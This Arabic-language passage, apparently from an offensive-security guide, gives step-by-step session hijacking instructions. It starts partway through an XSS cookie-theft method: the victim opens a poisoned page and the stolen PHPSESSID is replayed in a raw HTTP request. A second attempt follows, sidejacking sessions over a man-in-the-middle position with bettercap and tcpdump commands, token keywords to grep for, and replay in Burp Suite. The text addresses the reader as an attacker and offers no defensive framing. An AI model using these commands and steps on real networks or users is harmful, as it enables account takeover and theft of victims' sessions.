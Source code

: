 #### ٤. انتظر حتى يفتح الضحية الصفحة الملوثة → تحصل على الكوكيز.

#### ٥. استخدم الكوكيز في طلب جديد:
```http
GET /profile HTTP/1.1
Host: target.com
Cookie: PHPSESSID=stolen_cookie_value
```

#### 🛠️ الأدوات:
- Burp Suite
- BeEF Framework
- Webhook.site
- Python HTTP Server

#### 💡 شروط النجاح:
- الكوكيز **بدون HttpOnly**
- XSS قابل للتنفيذ

---

# 🧪 Session Hijacking – المحاولة 2: Session Sidejacking عبر MITM

### 📌 الفكرة:
تجسس على الشبكة لالتقاط Session Token من حركة المرور غير الآمنة (HTTP).

### ⚙️ الخطوات:

#### ١. ضع نفسك كـ MITM
- باستخدام BetterCAP:
```bash
bettercap -iface eth0 -caplet http.sniffer
```

#### ٢. ابدأ Sniffing الحزم
- يمكنك استخدام Wireshark أو tcpdump:
```bash
tcpdump -i eth0 port 80 -w capture.pcap
```

#### ٣. ابحث عن Session Tokens في الطلبات
- ابحث عن كلمات مثل:
```text
PHPSESSID=
sessionid=
Cookie:
Authorization: Bearer
```

#### ٤. استخدم التوكن في Burp Suite
- انسخ الـ Cookie أو Authorization Header.
- استخدمه في Repeater أو Proxy لفتح صفحة مستخدم آخر.
